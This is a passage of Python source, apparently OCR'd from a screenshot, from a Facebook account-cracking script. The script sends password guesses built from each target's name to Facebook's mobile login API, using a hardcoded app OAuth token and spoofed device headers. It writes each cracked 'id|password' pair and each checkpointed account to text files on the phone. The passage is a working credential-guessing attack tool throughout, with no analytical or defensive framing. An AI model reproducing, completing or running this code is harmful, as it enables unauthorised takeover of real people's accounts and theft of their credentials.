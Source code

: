                                         "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [AKRAM-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/AKRAM-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [Ali-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/Ali-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def api1(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [AKRAM-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)